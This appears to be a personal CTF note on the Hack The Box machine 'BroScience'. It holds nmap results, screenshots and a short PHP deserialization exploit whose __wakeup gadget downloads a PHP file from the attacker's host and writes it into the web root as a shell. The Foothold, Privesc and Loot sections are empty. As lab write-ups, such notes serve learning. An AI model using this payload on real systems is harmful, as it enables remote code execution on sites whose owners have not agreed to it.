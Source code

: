 # Enumeration 
10.129.106.239
Debian
## open ports
```
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)                                                                   
| ssh-hostkey:                                                                                                                         
|   3072 df17c6bab18222d91db5ebff5d3d2cb7 (RSA)                                                                                        
|   256 3f8a56f8958faeafe3ae7eb880f679d2 (ECDSA)                                                                                       
|_  256 3c6575274ae2ef9391374cfdd9d46341 (ED25519)                                                                                     
80/tcp  open  http     Apache httpd 2.4.54                                                                                             
|_http-title: Did not follow redirect to https://broscience.htb/                                                                       
|_http-server-header: Apache/2.4.54 (Debian)                                                                                           
| http-methods:                                                                                                                        
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                           
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian)) 
```

### Port 80


![[Pasted image 20230114155622.png]]
Redirect

### Port 443

![[Pasted image 20230114155711.png]]



![[Pasted image 20230114161747.png]]
![[Pasted image 20230114162014.png]]
![[Pasted image 20230114162028.png]]
![[Pasted image 20230114162041.png]]


![[Pasted image 20230114173505.png]]
got activation code using strtotime 
serialization attack on changing theme 


```
<?php 
class Avatar {
	public $imgPath;
	
	 public function __construct($imgPath) { 
		 $this->imgPath = $imgPath;
	 }
	 
	public function save($tmp) { 
		$f = fopen($this->imgPath, "w");
		fwrite($f, file_get_contents($tmp));
		fclose($f);     
	} 
}
class AvatarInterface { 
	public $tmp = "http://10.10.14.10/kekw.php"; 
	public $imgPath = "./kekw.php";
	public function __wakeup() {
		$a = new Avatar($this->imgPath); 
		$a->save($this->tmp);
	} 
}
$payload = base64_encode(serialize(new AvatarInterface)); 
echo $payload; 
?>


```



# Foothold 



# Privesc 
# Loot



---
Tags: #ctf #htb 
Resources: 